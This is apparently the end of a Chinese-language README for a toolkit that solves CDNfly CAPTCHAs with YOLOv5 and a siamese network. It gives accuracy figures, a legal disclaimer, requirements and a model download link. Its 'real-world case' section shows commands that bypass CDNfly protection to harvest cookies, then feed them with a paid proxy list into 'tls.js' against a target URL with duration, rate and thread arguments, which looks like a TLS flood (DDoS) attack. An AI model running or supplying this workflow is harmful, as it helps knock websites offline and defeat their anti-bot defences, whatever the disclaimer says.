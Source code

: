### 验证码识别精度

| 类型 | 精度 | 速度 | 备注 |
|------|------|------|------|
| **数字计算** | 98% | 0.5s | YOLOv5 识别 |
| **文字点选** | 95% | 1.2s | 孪生网络匹配 |

---

## ⚠️ 注意事项

### 法律合规

- ✅ 必须获得目标系统的**书面授权**
- ✅ 仅用于**合法的安全测试**
- ✅ 遵守当地法律法规
- ❌ **严禁**用于非法攻击

### 技术限制

**模型文件**:
- ⚠️ 需要手动下载模型文件（约 50MB）
- ⚠️ 模型文件较大，不包含在 Git 仓库中
- ✅ 下载链接：https://mega.nz/file/inw3nQRA#jWcJNPi771vA4n0AIkDuqlUxJI2iiLm321PnvBDRneM

**系统要求**:
- Python 3.8+
- PyTorch 1.9+
- CUDA（可选，GPU 加速）
- 内存: 至少 2GB

**依赖项**:
```
torch
torchvision
opencv-python
numpy
DrissionPage
yolov5
```

---

## 🔥 实战案例

### 案例 1: 突破 CDNfly 防护的网站

**目标**: 带 CDNfly 验证码的目标网站  
**方法**: 计算验证码绕过 + tls.js 攻击

```bash
# 1. 绕过验证码
cd cdnfly_bypass/计算
python3 code.py  # 自动识别并绕过

# 2. 获取 Cookie 后使用 tls.js
cd ../../新建文件夹
node tls.js https://target.com 300 256 20 ../proxy_paid.txt \
    --cookies ../cdnfly_bypass/cookies.txt
```
